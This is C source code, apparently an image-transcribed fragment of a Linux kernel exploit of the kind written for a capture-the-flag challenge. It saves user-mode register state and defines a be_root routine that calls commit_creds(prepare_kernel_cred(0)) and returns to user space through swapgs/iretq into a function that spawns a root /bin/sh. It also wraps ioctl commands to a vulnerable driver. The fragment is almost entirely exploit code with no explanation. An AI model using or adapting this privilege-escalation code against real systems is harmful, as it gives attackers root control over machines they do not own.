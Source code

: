 ```c

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	if(getuid() == 0){
        puts("[+] root!");
        system("/bin/sh");
    }
    else{
        puts("[-] failed!");
    }
}

int be_root()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq %0;"
		"pushq %1;"
		"pushq %2;"
		"pushq %3;"
		"pushq $shell;"
		"pushq $0;"
		"swapgs;"
		"popq %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}

struct node{
	size_t idx;
	size_t len;
	void *buf;
};

int fd;

int add(size_t idx)
{
	return ioctl(fd,0x20,&idx);
}

int show(struct node *nodep)
{
	return ioctl(fd,0x40,nodep);
}

int delete(size_t idx)
{
	return ioctl(fd,0x30,&idx);
}
```